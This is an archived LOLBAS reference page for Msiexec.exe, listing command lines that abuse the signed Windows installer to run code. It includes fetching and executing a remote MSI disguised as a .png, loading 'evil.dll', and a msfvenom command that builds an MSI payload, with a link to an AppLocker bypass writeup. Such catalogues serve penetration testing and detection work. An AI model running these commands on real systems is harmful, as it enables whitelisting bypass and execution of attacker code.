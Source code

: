 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Msiexec.exe

* Functions: Execute

```
msiexec /quiet /i cmd.msi    

msiexec /q /i http://192.168.100.3/tmp/cmd.png   

msiexec /y "C:\folder\evil.dll"   

msiexec /z "C:\folder\evil.dll"   
```

Acknowledgements:
* ? - @netbiosX
* PhilipTsukerman - @PhilipTsukerman

Code sample:
* 

Resources:
* https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/
* https://twitter.com/PhilipTsukerman/status/992021361106268161

Full path:
```
c:\windows\system32\msiexec.exe
c:\windows\sysWOW64\msiexec.exe
```

Notes:
Generate MSI file:
```
msfvenom -f msi -p windows/exec CMD=powershell.exe > powershell.msi    
```



